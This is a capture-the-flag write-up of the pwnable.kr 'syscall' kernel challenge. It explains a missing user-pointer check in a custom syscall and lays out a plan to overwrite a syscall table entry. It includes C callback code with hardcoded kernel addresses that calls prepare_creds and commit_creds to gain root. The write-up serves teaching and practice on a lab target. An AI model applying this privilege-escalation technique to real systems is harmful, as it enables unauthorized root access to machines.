 tags: #pwnable #rookiss #kernel #kernelexploit #syscall #cred

Writeup
=======

pwnable.kr - Rookiss 'syscall' challange.

Download : http://pwnable.kr/bin/syscall.c

ssh syscall@pwnable.kr -p2222 (pw:guest)

Site
----

pwnable.kr


Solution
========


Gist
----

The kernel has a new syscall on syscall number 223 which will convert lower case bytes to upper case.
The systam call defined in syscall.c has a bug! The kernel does not check whether the supplied paramaters are coming from the user address space. (__user attribute is missing from the param declaration.)
Since this kernel remapped the syscall table to be writable we can use this sycall to actually overwrite its syscall entry with a function we supply! The linux kernel does not have a separate user and kernel linear virtual address space for performance reasons. 
When a syscall is being executed the linux kernel is running on behalf of a process. It also has access to the address space of the process! This makes it possible to reference userspace memory.
What this means is that we can install our own syscall by overwriting the syscall entry 223 then calling the syscall 223 again.
At this point we also have access to kernel space obviously so we can use kernel functions (we can look them up from /proc/kallsyms as they are readable without sudo on that machine). 
We simply clone the current credentials then we overwrite the new cred structure with the id 0 (root id) then we install the new credentials. After this we can return from the syscall and we have root privileges!

Plan
----

0) Lookup the addresses of the following kernel symbols (kernel address space layout randomization is turned off on the host):
   You can use: 
   `cat /proc/kallsyms | grep <symbol>`
    - sys_call_table
    - prepare_creds
    - commit_creds
   sys_call_table is where the function pointers to the syscall handlers are stored.
   struct cred* prepare_creds() is a kernel function (linux/kernel/cred.c) to clone the current cred struct.
   int commit_creds(struct cred*) will install the new credentials to the process.

1) Remap our text section to the heap and make it executable. (Actually it is enough to remap the code that will be executed when in kernel mode)

2) Install our userspace callback function into the 223 syscall entry. The entry 223 is unused - this is where the lower_to_upper syscall is stored originally.
    This is done by supplying to the buggy syscall:
        - destination address: 
            sys_call_table + 223*sizeof(void*)
        - source address:
            our remapped callback's address (NOTICE: remap to an address which will result in an address of the callback so that none of the bytes of the address falls into the lowercase value range as the buggy syscall will try to make it uppercase value.)

3) Trigger the syscall 223 again - now are injected callback will be executed. 

4) Now we should have root priviliges and now just simply open and read the /root/flag file.


Callback
--------

On x86 linux kernel uses registers to pass parameters to function if it can so we need to repsect that when using internal kernel functions.
https://kernelnewbies.org/ABI


// Callback to be installed as syscall to change the process credentials    

::
    #define SYS_CALL_TABLE_BASE 0x8000e348       // sys_call_table
    #define CRED_PREPARE_CRED    0x8003f44c      // prepare_creds
    #define CRED_COMMIT_CRED     0x8003f56c      // commit_creds

    typedef void* (*prepare_creds_ty)(void);        // return struct cred*
    typedef __attribute__((regparm(1))) int   (*commit_creds_ty)(void*);        // takes struct cred*

    void* prepare_creds(void)
    {
        return ((prepare_creds_ty)CRED_PREPARE_CRED)();
    }

    __attribute__((regparm(1)))  // regparam (number) => pass <number> params through registers
    int commit_creds(void* cred) 
    {
        return ((commit_creds_ty)CRED_COMMIT_CRED)(cred);
    }

    __attribute__((regparm(1)))
    void setid_on_cred(void* cred)
    {
        u32* pcred = (u32*)cred;
        int  i = 0;
        // now we should try to 'blindly' modify the uids. struct cred is defined in linux/include/cred.h 
        pcred++;                // jump over the 'usage' field
        for(i=0;i<8;i++) {      // we have 8 'id' members in struct cred - overwrite them with 0 (root id)
            *pcred = 0;         // credential zero is the root id
            pcred++;
        }
    }


    int change_cred(char* a, char* b)
    {
        int  res = -1;
        void* cred = prepare_creds();
        if(!cred) {
            return -1;
        }
        setid_on_cred(cred);
        res = commit_creds(cred);
        return res;
    }

Once the syscall returns the second time (the first was to exploit the bug and overwrite the syscall entry) we have root priviliges.
Now we can open and read the /root/flag file contents simply in userspace.


